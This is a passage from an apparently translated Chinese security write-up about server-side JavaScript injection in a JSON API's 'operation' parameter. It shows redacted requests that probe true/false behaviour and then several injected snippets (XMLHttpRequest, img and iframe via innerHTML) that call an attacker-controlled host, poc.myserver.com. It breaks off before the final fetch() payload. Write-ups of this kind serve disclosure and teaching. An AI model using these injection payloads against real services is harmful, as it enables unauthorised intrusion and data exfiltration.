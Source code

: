 ```
`{`...REDACTED...,"operation":"Union('a','b','c')"`}`
`{`"status":400,"message":"Parse error on line 1...REDACTED..."`}`
```

```
`{`...REDACTED...,"operation":"Union('a';'b';'c')"`}`
[`{`"name":"REDACTED",...REDACTED...`}`]
```

```
`{`...REDACTED...,"operation":"Union('1';'2';'3')"`}`
[`{`"name":"REDACTED",...REDACTED...`}`]
```

```
`{`...REDACTED...,"operation":"Union('1';'&lt;';'3')"`}`
[`{`"name":"REDACTED",...REDACTED...`}`]
```

```
`{`...REDACTED...,"operation":"Union('1';'&gt;';'3')"`}`
[]]
```

完美！如果1&lt;3，那么响应中就包含着有效的数据（True）。但如果1&gt;3，那么响应为空（False）。而参数必须使用分号来分隔。现在，我们就可以尝试真正的攻击了。



## fetch：新的XMLHttpRequest

因为请求是对API的ajax调用，只返回JSON数据，所以它显然不是在客户端一侧的注入。我从之前的报告中也了解到，ArticMonkey倾向于使用很多服务器端的JavaScript。<br>
但这没关系，我必须尝试所有可能性。也许我可以触发一个错误，获得有关JavaScript运行的系统的信息。自从我进行本地测试以后，我明确知道了如何注入恶意代码。之后，我尝试了基本的XSS Payload和具有恶意格式的JavaScript，但最后得到的只是和之前一样的错误。<br>
再然后，我尝试触发HTTP请求。<br>
通过ajax调用第一个：

```
x = new XMLHttpRequest;
x.open( 'GET','https://poc.myserver.com' );
x.send();
```

但是，没有得到任何内容。我也尝试过HTML注入：

```
i = document.createElement( 'img' );
i.src = '&lt;img src="https://poc.myserver.com/xxx.png"&gt;';
document.body.appendChild( i );
```

同样没有收获。接下来，进行更多尝试：

```
document.body.innerHTML += '&lt;img src="https://poc.myserver.com/xxx.png"&gt;';

document.body.innerHTML += '&lt;iframe src="https://poc.myserver.com"&gt;';
```

许多时候，我们必须走一些弯路，才能知道这是一条弯路。显然，HTML代码的思路是错误的。碰壁之后，我们回到ajax请求上，我花费了很长的时间才弄明白它的工作原理。<br>
这时，我回想起，ArticMonkey在他们的前端使用了ReactJS，后来才知道他们使用了NodeJS服务器端。无论如何，我在Google上进行了搜索，找到如何用它来执行ajax请求，并在官方文档（ [https://reactjs.org/docs/faq-ajax.html](https://reactjs.org/docs/faq-ajax.html) ）中找到了解决方案，解决方案中指出应该使用fetch()函数（ [https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API) ），这是执行ajax调用的新标准，也是解决问题的关键。<br>
我注入了以下内容：
